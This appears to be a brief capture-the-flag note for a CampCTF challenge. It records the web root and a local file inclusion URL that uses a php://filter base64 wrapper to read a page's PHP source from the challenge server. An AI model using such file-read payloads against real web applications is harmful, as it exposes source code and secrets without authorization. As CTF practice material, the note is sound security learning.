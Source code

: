# ctftrolol

Basedir is /var/www/html/

LFI (file read): http://challs.campctf.ccc.ac:10119/?page=php://filter/convert.base64-encode/resource=info
